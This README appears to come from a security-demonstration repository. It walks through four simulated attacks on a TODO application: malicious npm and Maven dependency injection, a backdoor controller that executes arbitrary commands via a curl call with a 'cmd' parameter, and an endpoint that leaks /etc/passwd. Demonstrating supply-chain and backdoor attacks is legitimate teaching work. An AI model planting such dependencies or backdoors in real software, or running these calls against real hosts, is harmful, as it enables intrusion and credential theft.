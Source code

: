 # Attack Simulation Guide

This directory contains intentionally malicious code used to demonstrate several
ways an attacker could compromise the TODO application.

## Attack Scenarios

1. **Malicious npm package injection** – infect the React client by installing
   the locally built `evil-package`.
2. **Malicious Maven library injection** – add the `evil-lib` JAR to the Spring
   Boot backend.
3. **Remote shell backdoor** – copy a debug controller that executes arbitrary
   commands.
4. **Password leak endpoint** – the same controller exposes an endpoint that
   returns `/etc/passwd`.

---

### 1. Malicious npm package injection

1. Build the package:
   ```bash
   cd evil-package
   npm pack
   ```
   This produces a `.tgz` archive under `evil-package/`.

2. Infect the client application:
   ```bash
   cd ../../todo-client
   npm install ../malicious/evil-package/evil-package-1.0.0.tgz
   ```
   The archive is added to `package-lock.json`, mimicking a compromised
   dependency tree.

### 2. Malicious Maven library injection

1. Build and install the library to the local Maven repository:
   ```bash
   cd evil-lib
   mvn install -DskipTests
   ```

2. Add the dependency to the backend:
   ```bash
   cd ../../todo-api
   mvn install:install-file \
       -DgroupId=com.malicious \
       -DartifactId=evil-lib \
       -Dversion=1.0.0 \
       -Dpackaging=jar \
       -Dfile=../malicious/evil-lib/target/evil-lib-1.0.0.jar
   # Then update pom.xml to reference com.malicious:evil-lib:1.0.0
   ```
   The manual step mimics an attacker injecting the dependency after the build
   has started.

### 3. Remote shell backdoor

1. Copy the malicious controller into the API:
   ```bash
   cd malicious
   cp debug-controller/src/main/java/com/example/demo/DebugController.java \
      ../todo-api/src/main/java/com/example/demo/DebugController.java
   cd ..
   ```

2. Rebuild the application so the new endpoint is active:
   ```bash
   cd ../todo-api
   ./mvnw package -DskipTests
   ```

3. Execute arbitrary commands:
   ```bash
   curl "http://<todo-api-service>/debug-shell?cmd=whoami"
   ```

### 4. Password leak endpoint

With the debug controller installed, this call exfiltrates the host's
`/etc/passwd` file:

```bash
curl "http://<todo-api-service>/leak"
```
